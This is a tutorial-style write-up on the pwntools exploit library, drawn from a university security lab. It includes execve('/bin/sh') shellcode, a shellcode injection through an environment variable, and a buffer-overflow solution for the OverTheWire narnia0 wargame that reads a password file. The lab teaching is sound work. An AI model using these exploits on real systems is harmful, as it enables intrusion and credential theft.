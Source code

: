 # pwntools - CTF toolkit

From [1]:
> Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

The following tutorials build from [4]:

### Assembly and ELF manipulation

For a simple code like:
```C
#include <stdio.h>

int main(int argc, char* argv[])
{
	char flag[10] = {'S', 'E', 'C', 'R', 'E', 'T', 'F', 'L', 'A', 'G'};
	char digits[10] = {'0', '1', '2', '3', '4', '5', '6', '7', '8', '9'};
	int index = 0;

	while (1) {
		printf("Give me an index and I'll tell you what's there!\n");
		scanf("%d", &index);
		printf("Okay, here you go: %p %c\n", &digits[index], digits[index]);
	}
	return 0;
}
```

We compile it:
```bash
root@8beb97f8d305:/tutorial/tutorial6# gcc -o leaky leaky.c
```

and run the following Python script:
```Python
#!/usr/bin/env python
from pwn import *

leaky_elf = ELF('leaky')
main_addr = leaky_elf.symbols['main']

# Print address of main
log.info("Main at: " + hex(main_addr))

# Disassemble the first 14 bytes of main
log.info(disasm(leaky_elf.read(main_addr, 14), arch='x86'))
```

Delivering:
```
root@8beb97f8d305:/tutorial/tutorial6# python example1.py
[*] '/tutorial/tutorial6/leaky'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Main at: 0x4005d6
[*]    0:   55                      push   ebp
       1:   48                      dec    eax
       2:   89 e5                   mov    ebp,esp
       4:   48                      dec    eax
       5:   83 ec 50                sub    esp,0x50
       8:   89 7d bc                mov    DWORD PTR [ebp-0x44],edi
       b:   48                      dec    eax
       c:   89                      .byte 0x89
       d:   75                      .byte 0x75
```

### Shellcode from assembly
Available in `example6.py`. Shortly:
```Python
#!/usr/bin/env python
from pwn import *

# Define the context of the working machine
context(arch='i386', os='linux')

# Get a simple shellcode
log.info("Putting together simple shellcode")

sh_shellcode2 = """
        /* execve(path='/bin///sh', argv=['sh'], envp=0) */
        /* push '/bin///sh\x00' */
        push 0x68
        push 0x732f2f2f
        push 0x6e69622f
        mov ebx, esp
        /* push argument array ['sh\x00'] */
        /* push 'sh\x00\x00' */
        push 0x1010101
        xor dword ptr [esp], 0x1016972
        xor ecx, ecx
        push ecx /* null terminate */
        push 4
        pop ecx
        add ecx, esp
        push ecx /* 'sh\x00' */
        mov ecx, esp
        xor edx, edx
        /* call execve() */
        push SYS_execve /* 0xb */
        pop eax
        int 0x80
"""
# Create a binary out of some shellcode
e = ELF.from_assembly(sh_shellcode2, vma=0x400000, arch='i386')
```

### Shellcraft
Only managed to make it work for 32-bit binaries. Refer to `example4.py` for a working example with 32-bits and to `example5.py` for a non-working example with 64-bits.

```
docker run -v /Users/victor/basic_cybersecurity:/tutorial -it pwnbox:latest
...
root@ffac9df3ac02:/tutorial/tutorial6# python example4.py
[*] Compiling the binary narnia1_local
narnia1.c: In function 'main':
narnia1.c:21:5: warning: implicit declaration of function 'getenv' [-Wimplicit-function-declaration]
  if(getenv("EGG")==NULL){    
     ^
narnia1.c:21:18: warning: comparison between pointer and integer
  if(getenv("EGG")==NULL){    
                  ^
narnia1.c:23:3: warning: implicit declaration of function 'exit' [-Wimplicit-function-declaration]
   exit(1);
   ^
narnia1.c:23:3: warning: incompatible implicit declaration of built-in function 'exit'
narnia1.c:23:3: note: include '<stdlib.h>' or provide a declaration of 'exit'
narnia1.c:27:6: warning: assignment makes pointer from integer without a cast [-Wint-conversion]
  ret = getenv("EGG");
      ^
[*] Putting together simple shellcode
jhh///sh/bin\x89?h\x814$ri1?Qj\x04Y?Q??1?j\x0bX̀
[*] Introduce shellcode in EGG env. variable
[*] Launching narnia1_local
[!] Could not find executable 'narnia1_local' in $PATH, using './narnia1_local' instead
[+] Starting local process './narnia1_local': pid 38
[*] Switching to interactive mode
Trying to execute EGG!
$ uname -a
Linux ffac9df3ac02 4.9.87-linuxkit-aufs #1 SMP Wed Mar 14 15:12:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Issue raised at https://github.com/Gallopsled/pwntools/issues/1142.

### GDB integration

Issue with the terminal fixed at https://github.com/Gallopsled/pwntools/issues/1140.

New issue at https://github.com/Gallopsled/pwntools/issues/1117.

### Examples
#### narnia1
As an example, provided the following problem http://overthewire.org/wargames/narnia/narnia1.html:

```Python
from pwn import *

context(arch='i386', os='linux')
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', password='narnia0', port=2226)
sh = s.run('/narnia/narnia0')
sh.sendline('A'*20 + p32(0xdeadbeef))
sh.sendline('cat /etc/narnia_pass/narnia1')
while 1:
    print(sh.recvline())
# log.info('Flag: '+sh.recvline().split('\n')[0])
s.close()

```

### Bibliography
- [1] Gallopsled, *pwntools*. Retrieved from https://github.com/Gallopsled/pwntools.
- [2] Gallopsled, *pwntools Docs*. Retrieved from https://docs.pwntools.com/en/stable/index.html.
- [3] Exploit Database. Retrieved from https://www.exploit-db.com/.
- [4] University Politehnica of Bucharest, Computer Science and Engineering Department, Computer and Network Security. *Lab 07 - Exploiting. Shellcodes (Part 2)*. Retrieved from https://ocw.cs.pub.ro/courses/cns/labs/lab-07.
